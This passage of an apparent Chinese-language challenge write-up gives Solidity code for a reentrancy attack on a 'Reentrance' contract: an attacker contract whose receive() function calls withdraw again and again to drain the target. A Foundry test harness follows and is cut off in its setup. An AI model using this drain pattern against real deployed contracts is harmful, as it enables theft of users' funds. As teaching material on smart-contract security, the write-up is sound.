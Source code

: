 ## 💻 Foundry 实现

### 攻击合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Reentrance.sol";

contract ReentrancyAttacker {
    Reentrance public target;
    uint public amount;
    
    constructor(address _target) {
        target = Reentrance(_target);
    }
    
    function attack() external payable {
        amount = msg.value;
        
        // 步骤1: 先存入一些资金建立余额
        target.donate{value: amount}(address(this));
        
        // 步骤2: 开始重入攻击
        target.withdraw(amount);
    }
    
    // 重入攻击的核心 - receive函数
    receive() external payable {
        if (address(target).balance >= amount) {
            // 递归调用withdraw，实现重入
            target.withdraw(amount);
        }
    }
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract ReentranceTest is Test {
    Reentrance public reentrance;
    ReentrancyAttacker public attacker;
    
    address public user1 = makeAddr("user1");
    address public user2 = makeAddr("user2");
    address public attackerAddr = makeAddr("attacker");

    function setUp() public {
        // 部署目标合约
        reentrance = new Reentrance();
        
        // 给用户一些初始资金
        vm.deal(user1, 10 ether);
        vm.deal(user2, 10 ether);
        vm.deal(attackerAddr, 2 ether);
        
        // 模拟正常用户存款
        vm.prank(user1);
        reentrance.donate{value: 5 ether}(user1);
        
```
